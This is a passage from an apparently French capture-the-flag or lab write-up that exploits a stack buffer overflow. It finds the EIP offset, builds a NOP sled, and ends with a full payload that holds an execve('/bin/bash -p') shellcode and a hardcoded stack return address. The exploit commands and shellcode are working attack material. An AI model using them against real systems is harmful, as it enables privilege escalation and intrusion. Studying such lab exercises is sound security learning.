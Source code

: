 ```python
cyclic_find("oaab")
```

![](markimages\2022-01-31-21-55-44-image.png)

Il faut à peu près 156 caractères pour contrôler la valeur de **EIP**, avec ça nous pouvons générer un nouveau fichier avec des instructions **nop**  `\x90 ---> 0x90`:

```python
python -c 'print("\xff\xff\xff\xff" + "/" + "T"*156 + "AAAA" + "\x90"*100)' > /tmp/flaw
```

Il faut ensuite repérer une adresse de la stack qui contient nos instructions **nop**. 

![](markimages\2022-01-31-23-14-32-image.png)

Puis trouver un shellcode qui exécute `/bin/bash` pour nous permettre de prendre le contrôle une fois que le programme aura exécuté notre payload.

[Linux/x86 - execve(/bin/bash, [/bin/bash, -p], NULL) - 33 bytes](http://shell-storm.org/shellcode/files/shellcode-606.php)

```bash 
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
```

Le shellcode fait 33bytes pour être sûr de tomber dans les instructions nops on peut ajouter le décalage de notre shellcode à notre adresse `bffffb66 + 33 = bffffb99`.



Enfin voici notre paylaod finale : 

```bash
python -c 'print("\xff\xff\xff\xff" + "/" + "T"*156 + "\x99\xfb\xff\xbf" + "\x90"*100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")' > /tmp/flaw
```
